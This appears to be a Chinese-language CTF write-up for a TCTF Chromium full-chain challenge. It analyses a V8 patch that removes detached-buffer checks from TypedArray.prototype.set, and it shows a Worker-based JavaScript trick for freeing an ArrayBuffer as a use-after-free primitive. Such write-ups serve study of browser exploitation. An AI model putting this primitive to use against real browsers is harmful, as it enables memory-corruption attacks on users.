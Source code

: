 # Chromium-Fullchain

Tctf chrome终章：


### 题目分析

首先他的漏洞点类似于之前的挑战：rce+sbx：

##### problem1
```
diff --git a/src/builtins/typed-array-set.tq b/src/builtins/typed-array-set.tq
index b5c9dcb261..babe7da3f0 100644
--- a/src/builtins/typed-array-set.tq
+++ b/src/builtins/typed-array-set.tq
@@ -70,7 +70,7 @@ TypedArrayPrototypeSet(
     // 7. Let targetBuffer be target.[[ViewedArrayBuffer]].
     // 8. If IsDetachedBuffer(targetBuffer) is true, throw a TypeError
     //   exception.
-    const utarget = typed_array::EnsureAttached(target) otherwise IsDetached;
+    const utarget = %RawDownCast<AttachedJSTypedArray>(target);
 
     const overloadedArg = arguments[0];
     try {
@@ -86,8 +86,7 @@ TypedArrayPrototypeSet(
       // 10. Let srcBuffer be typedArray.[[ViewedArrayBuffer]].
       // 11. If IsDetachedBuffer(srcBuffer) is true, throw a TypeError
       //   exception.
-      const utypedArray =
-          typed_array::EnsureAttached(typedArray) otherwise IsDetached;
+      const utypedArray = %RawDownCast<AttachedJSTypedArray>(typedArray);
 
       TypedArrayPrototypeSetTypedArray(
           utarget, utypedArray, targetOffset, targetOffsetOverflowed)
```
可以看到和rce相比删除了local API：%ArrayBufferDetach，所以我们首先需要找到一种可以释放ArrayBuffer的方法。
在参考大佬的wp时，了解到一种方法：
```
const ENABLE_NATIVE = 0
function ArrayBufferDetach(ab) {
    if (ENABLE_NATIVE) {
        eval("%ArrayBufferDetach(ab);");
        return
    }
    let w = new Worker('');
    w.postMessage({ab: ab}, [ab]);
    w.terminate();
}
```
通常而言，可以通过转移 ArrayBuffer （比如转移给另一个线程）来实现底层堆块的释放，这称之为 Neuter。在 V8 中，ArrayBuffer 提供了 Neuter 方法，代码如下所示：
```
/**
 * Detaches this ArrayBuffer and all its views (typed arrays).
 * Detaching sets the byte length of the buffer and all typed arrays to zero,
 * preventing JavaScript from ever accessing underlying backing store.
 * ArrayBuffer should have been externalized and must be detachable.
 */
void Detach();

// TODO(913887): fix the use of 'neuter' in the API.
V8_DEPRECATE_SOON("Use Detach() instead.", inline void Neuter()) { Detach(); }

/**
 * Make this ArrayBuffer external. The pointer to underlying memory block
```